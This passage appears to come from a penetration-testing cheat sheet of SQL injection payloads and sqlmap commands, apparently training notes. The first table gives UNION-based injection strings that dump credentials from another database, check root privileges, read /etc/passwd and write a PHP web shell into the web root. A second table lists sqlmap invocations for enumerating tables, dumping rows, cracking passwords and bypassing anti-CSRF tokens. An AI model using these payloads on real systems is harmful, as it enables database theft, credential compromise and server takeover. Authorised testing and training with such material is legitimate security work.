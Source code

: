 | cn' UNION select 1, username, password, 4 from dev.credentials-- -                                                                              | Dump data from a table in another database           |
| cn' UNION SELECT 1, user(), 3, 4-- -                                                                                                            | Find current user                                    |
| cn' UNION SELECT 1, super\_priv, 3, 4 FROM mysql.user WHERE user="root"-- -                                                                     | Find if user has admin privileges                    |
| cn' UNION SELECT 1, grantee, privilege\_type, is\_grantable FROM information\_schema.user\_privileges WHERE user="root"-- -                     | Find if all user privileges                          |
| cn' UNION SELECT 1, variable\_name, variable\_value, 4 FROM information\_schema.global\_variables where variable\_name="secure\_file\_priv"-- - | Find which directories can be accessed through MySQL |
| cn' UNION SELECT 1, LOAD\_FILE("/etc/passwd"), 3, 4-- -                                                                                         | Read local file                                      |
| select 'file written successfully!' into outfile '/var/www/html/proof.txt'                                                                      | Write a string to a local file                       |
| cn' union select "",'', "", "" into outfile '/var/www/html/shell.php'-- -                                                                       | Write a web shell into the base web directory        |

***

## **SQL Injection Payloads Lists**

<details><summary>Authentication Bypass</summary></details>

<details><summary>MSSQL Generic Payloads</summary></details>

***

## **SQLMap Basics**

| Command                                                                                                                  | Description                                                 |
| ------------------------------------------------------------------------------------------------------------------------ | ----------------------------------------------------------- |
| sqlmap -h                                                                                                                | View the basic help menu                                    |
| sqlmap -hh                                                                                                               | View the advanced help menu                                 |
| sqlmap -u "http://www.example.com/vuln.php?id=1" --batch                                                                 | Run SQLMap without asking for user input                    |
| sqlmap 'http://www.example.com/' --data 'uid=1\&name=test'                                                               | SQLMap with POST request                                    |
| sqlmap 'http://www.example.com/' --data 'uid=1\*\&name=test'                                                             | POST request specifying an injection point with an asterisk |
| sqlmap -r req.txt                                                                                                        | Passing an HTTP request file to SQLMap                      |
| sqlmap ... --cookie='PHPSESSID=ab4530f4a7d10448457fa8b0eadac29c'                                                         | Specifying a cookie header                                  |
| sqlmap -u www.target.com --data='id=1' --method PUT                                                                      | Specifying a PUT request                                    |
| sqlmap -u "http://www.target.com/vuln.php?id=1" --batch -t /tmp/traffic.txt                                              | Store traffic to an output file                             |
| sqlmap -u "http://www.target.com/vuln.php?id=1" -v 6 --batch                                                             | Specify verbosity level                                     |
| sqlmap -u "www.example.com/?q=test" --prefix="%'))" --suffix="-- -"                                                      | Specifying a prefix or suffix                               |
| sqlmap -u www.example.com/?id=1 -v 3 --level=5                                                                           | Specifying the level and risk                               |
| sqlmap -u "http://www.example.com/?id=1" --banner --current-user --current-db --is-dba                                   | Basic DB enumeration                                        |
| sqlmap -u "http://www.example.com/?id=1" --tables -D testdb                                                              | Table enumeration                                           |
| sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb -C name,surname                                       | Table/row enumeration                                       |
| sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb --where="name LIKE 'f%'"                              | Conditional enumeration                                     |
| sqlmap -u "http://www.example.com/?id=1" --schema                                                                        | Database schema enumeration                                 |
| sqlmap -u "http://www.example.com/?id=1" --search -T user                                                                | Searching for data                                          |
| sqlmap -u "http://www.example.com/?id=1" --passwords --batch                                                             | Password enumeration and cracking                           |
| sqlmap -u "http://www.example.com/" --data="id=1\&csrf-token=WfF1szMUHhiokx9AHFply5L2xAOfjRkE" --csrf-token="csrf-token" | Anti-CSRF token bypass                                      |